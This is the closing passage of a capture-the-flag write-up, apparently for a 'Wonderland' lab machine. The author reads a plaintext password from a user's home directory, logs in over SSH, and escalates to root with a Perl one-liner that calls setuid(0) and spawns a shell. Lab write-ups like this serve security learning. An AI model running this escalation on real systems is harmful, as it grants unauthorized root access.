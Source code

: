Looking around a bit more I found the password.txt file in hatter's home directory:

```
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

I used this to SSH with a new session and was able to execute the Perl command with no issues, even if I'm not sure why.

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

I can now grab the user.txt flag in `/root` and the root.txt flag in alice's home directory:

![wonderland_flags.png](../assets/wonderland_assets/wonderland_flags.png)

Thanks for following along!

-Ryan

------------------------------------------------
